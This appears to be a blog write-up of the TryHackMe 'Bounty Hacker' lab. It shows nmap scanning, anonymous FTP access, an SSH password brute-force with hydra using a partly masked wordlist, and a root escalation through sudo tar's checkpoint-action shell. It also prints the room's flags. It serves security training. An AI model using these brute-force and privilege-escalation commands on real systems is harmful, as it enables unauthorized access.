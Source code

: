 ```yaml
---
published: true
image: /assets/img/sample/bounty_hacker_wirteup/boundy.png
categories:
  - Writeup
  - TryHackMe
tags:
  - tryhackme
---
```



Today I wanna share for you a very easy fun box in [Tryhackme](https://tryhackme.com/) called [Bounty Hacker](https://tryhackme.com/room/cowboyhacker) created by [Sevuhl](https://tryhackme.com/p/Sevuhl)

# [](#header-2)Nmap Scan

```console
# Nmap 7.80 scan initiated Fri Jul 31 19:53:29 2020 as: nmap -sC -sV -oN nmap 10.10.85.90
Nmap scan report for 10.10.85.90
Host is up (0.29s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.69.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 31 19:54:25 2020 -- 1 IP address (1 host up) scanned in 56.02 seconds

```
# [](#header-2)Web

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/2.png)

I scanned all directories, but nothing interesting there ,let's move on 

# [](#header-2)FTP

Next step is FTP can login with anonymous 

```console
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ftp 10.10.85.90
Connected to 10.10.85.90.
220 (vsFTPd 3.0.3)
Name (10.10.85.90:root): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
`ls -al` 

```console
ftp> ls -al
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 .
drwxr-xr-x    2 ftp      ftp          4096 Jun 07 21:47 ..
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp> 

```
Let's download these two files with `get` command

```console
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (402.1706 kB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (35.0984 kB/s)
ftp> 

```

`task.txt`

```console
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin

```

`locks.txt`

```console
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #cat locks.txt 
rEddrAGON
ReDdr*****d!cat3
Dr@gO*****cat3
R3DDr*****YndIC@Te
Re****0N
R3d*****1c4te
dRa****DiCATE
ReDD*****Ic4te
R3D****44
RedD*****1cat3
R3dD*****d1c@T3
Synd*****@g0n
re****Ag0N
REddR*****NdIc47e
Dra6******IC@t3
4L1mi*****eB357
rEDd******1c473
DrAg****D1cATE
ReD*****nd1cate
Dr@g*****1C4Te
RedDr*****9ic47e
REd*****7e
dr******c@73
rEDdr******iCat3
r3d****0N
Re****1ca7e

```

Look like `passowrd` file. According to `task.txt` file `lin` can be username 

So let's bruteforce with hydra for ssh :)

```console
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #hydra -l lin -P locks.txt ssh://10.10.85.90
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-31 20:17:34
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.85.90:22/
[22][ssh] host: 10.10.85.90   login: lin   password: RedD*******nd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-31 20:17:40
```

OK! Now we got username and password , let's login

```console
┌─[root@cyb3rhoL1c]─[~/Desktop/tryhackme/machine/bounty_hacker]
└──╼ #ssh lin@10.10.85.90
lin@10.10.85.90's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Fri Jul 31 09:59:59 2020 from 10.8.69.162
lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt 
THM{CR**************T3}

```

# [](#header-2)Privilege Escalation

```console
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

`lin` user can run `tar` as root ,let's go [GTFObin](https://gtfobins.github.io/) and search `tar`

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/3.png)

Now we use this command for privilege escalation

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```console
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd /root
# ls
root.txt
# cat root.txt
THM{80UN7Y_h4cK3r}
# 
```

We owned this machine :)

![Desktop View](/assets/img/sample/bounty_hacker_wirteup/4.png)

[Enjoy..]()

<script src="https://tryhackme.com/badge/97569"></script>
